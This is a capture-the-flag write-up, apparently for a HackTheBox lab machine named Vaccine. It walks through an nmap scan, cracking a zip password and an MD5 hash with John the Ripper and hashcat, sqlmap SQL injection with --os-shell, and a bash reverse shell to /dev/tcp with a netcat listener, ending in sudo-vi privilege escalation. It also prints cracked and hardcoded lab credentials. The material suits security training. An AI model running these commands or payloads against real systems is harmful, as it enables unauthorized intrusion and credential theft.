


> Completed on `03/09/2022` | OS: `Linux`
> 
> Tools used: `nmap` `John the Ripper` `sqlmap` `ftp` `netcat` `ssh`
>

<!--more-->


## Enumeration

- First, we will use the Nmap to scan the website information such as ports, service and server.


- Then we will receive the following information:
+`Port 21/tcp open  ftp     vsftpd 3.0.3`
+`Port 22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)`
+`Port 0/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))`
- Here we can see CVE-2020-15778 on port 22 and service ssh version OpenSSH and after a while for searching, we found POC CVE-2020-15778


- Then, I try connecting the website running port 21 and ftp service, we have file backup.zip.


- Now, this zip file needs a password to open. It's unfortunate that we don't know what the password is. We will use the John Tool(John the ripper), first we use command "zip2john backup.zip" to save the file's hash code and then we use.
- In order to successfully crack the password, we will have to convert the ZIP into the hash using the `zip2john` module that comes within John the Ripper:
    
    
    

<aside>
💡 *John the Ripper is a free password cracking software tool. Originally developed for the
Unix operating system, it can run on fifteen different platforms (eleven of which are
architecture-specific versions of Unix, DOS, Win32, BeOS, and OpenVMS). It is among the
most frequently used password testing and breaking programs as it combines a number of
password crackers into one package, autodetects password hash types, and includes a
customizable cracker. It can be run against various encrypted password formats
including several crypt password hash types most commonly found on various Unix
versions (based on DES, MD5, or Blowfish), Kerberos AFS, and Windows NT/2000/XP/2003 LM hash. Additional modules have extended its ability to include MD4-based password hashes and passwords stored in LDAP, MySQL, and others.*

</aside>

- Now, we will type the following command:
`john -wordlist=/usr/share/wordlists/rockyou.txt hash`


- We can see the cracked password 741852963 . We will extract the files now:
    
    
    
- First, we will now read the `index.php` file.

```php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3")>
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
```

- We can see the information:  `admin:2cb42f8734ea607eefed3b70af13bbd3`
- But this password is MD5 CODE, and need decrypt it.

`hashcat -m 0 2cb42f8734ea607eefed3b70af13bbd3 /usr/share/wordlists/rockyou.txt`


- Now, I will use username and password, we just found to login to the website.




- In this website, only the search box, as a result I found SQL Injection here.


## Foothold

- Now, Let's jump to Sqlmap
`sqlmap <http://10.129.59.249/dashboard.php?search=*> --cookie PHPSESSID=atch53ukqbqo77tdjhgvu6t2nb --dbs --batch`

<aside>
💡 `SQLmap` is an open-source tool used in penetration testing to detect and exploit SQL
injection flaws. `SQLmap` automates the process of detecting and exploiting SQL
injection. SQL Injection attacks can take control of databases that utilize SQL.

</aside>

- I think that it’s best to save `header` to a file with extension `req`
    
    
    
    - Out of this output, the thing that is important to us is the following:
    `GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)?
    [y/N]`
    - The tool confirmed that the target is vulnerable to SQL injection, which is everything we needed to know. We will run the `Sqlmap` once more, where we are going to provide the `--os-shell` flag, where we will be able to perform command injection:

Then scan as follows


- We got the shell, however, it is not very stable and interactive. SO need to make it much stable, we will use the following payload:

`bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1”`

- We will turn on the `netcat` listener on port 443:
    
    
    
- Then we will execute the payload


- We got the foothold and now will quickly make our shell fully interactive

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Now we will find the user’s password: `grep -i -R "pass”`


```
-i,--ignore-case
       Ignore case distinctions in both thePATTERN and the input files.  (-i is specified by POSIX.)
```

---

```
-R,-r,--recursive
       Read all files under each directory, recursively; this is equivalent to the-drecurse option.
```

---

- Finally, we found password in the `dashboard.php` file:

```php
$conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
```

- Note that the shell might die all of a sudden, instead of re-doing the exploit all over again, we will use SSH to login.
    
    
    
- Then we found the user’s flag:


- Ok, now we will type the `sudo -l` to see what privileges do we have:



So we have sudo privileges to edit the `pg_hba.conf` file using vi by running `sudo /bin/vi
/etc/postgresql/11/main/pg_hba.conf`


- We will perform as follows to open the vi editor as the superuser :

```bash
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Finally, we got the root’s flag:


